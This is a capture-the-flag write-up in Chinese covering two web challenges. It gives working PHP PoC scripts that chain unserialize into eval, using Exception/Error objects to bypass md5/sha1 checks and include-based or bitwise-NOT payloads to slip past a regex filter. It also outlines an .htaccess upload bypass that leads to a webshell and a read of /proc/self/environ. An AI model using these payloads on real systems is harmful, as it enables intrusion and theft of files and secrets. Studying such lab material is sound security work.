 
## [极客大挑战 2020] greatphp

> 题目描述:  
> 1.md5(sha1) a string, an array, or?
> 2.End the past and create a new phpcode!

### 代码审计

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    // 反序列化时调用
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
            // 一处哈希函数的 bypass
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                // ban 了<?php, (, ), ", ', 注意没有开启忽略大小写
                // 注意 eval(code) 中的内容应该符合 php 语法
                eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

### 哈希强比较绕过

#### 魔法函数尝试

构造 payload, 首先是绕过哈希强比较, 这里不能直接简单的传入两个数组, 因为稍后 syc 会拿去 `eval()`, 必须传入一个字符串;

> 思考了一下, 可以用类似的方法, 如果数组不行的话, 可以考虑用对象来完成, 把 `$this->syc` 和 `$this->lover` 传入为两个不同的对象, 同时给两者加一个 **`__toString()` 魔法函数**让他们满足哈希强比较; 同时调整这个魔术方法来 bypass;
> 不过这个方式需要寻找其他的已经定义了 **`__toString()` 魔法函数**的方法来进行调用, 因为序列化时不会把内置魔法函数存进去;

#### 原生类绕过

在 php 中, 存在**特殊的异常类**, 例如 Exception / Error 类, 这两种类会 **自带一个 `__toString()`** 魔法函数;

php 源码中这个 Exception 类的定义:

```php
public Exception::__construct(
    // 异常文本信息, __toString(), getMessage() 的结果
    string $message = "",
    // (int) 异常代码值, 
    int $code = 0,
    ?Throwable $previous = null
)
```

### 解法1: include 变量可以不用引号

这里用到的核心是, php 中 `include` 一个变量值, 是**不需要引号的**; 也就是可以用 `include $_GET[_];` 这种形式, 并且虽然 ban 了 `<?php`, 但是没有 ban `<?=`, 完全不影响结果;

PoC:
```php
<?php

class SYCLOVER {
    public $syc;
    public $lover;
}

$payload = '?><?= include $_GET[_]; ?>';
$a=new Exception($payload,1);$b=new Exception($payload,2);

$s = new SYCLOVER();
$s->syc = $a;
$s->lover = $b;
var_dump(urlencode(serialize($s)));
```

> 注意要用单引号, 否则 `$` 会被解析;

然后传入 `123=./flag`:

![17-2.png](17-2.png)

### 解法2: 取反 + 报错

取两次反就可以了, 由于序列化这里的结果也是不含引号的;

PoC:

```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;
 
    public function __construct($b,$c){
        $this->syc = $b;
        $this->lover = $c;
    }
}
$in = ~("/flag");
$payload = "?><?=include~".$in."?>";
$b = new error($payload,1);$c=new error($payload,2);
$a = new SYCLOVER($b,$c);
echo(urlencode(serialize($a)));
?>
```

> 踩坑: 注意 php 文件路径不能含有被 waf 掉的字符, 比如这里就是括号;

![17-1.png](17-1.png)

## [SWPUCTF 2021 新生赛]easyupload3.0

### 题解

一个文件上传界面, 传 php 文件被 waf, 传 .htaccess 通过;

![18-1.png](18-1.png)

![18-2.png](18-2.png)

蚁剑连上 webshell;

flag 在 `/proc/self/environ` 里:

![18-3.png](18-3.png)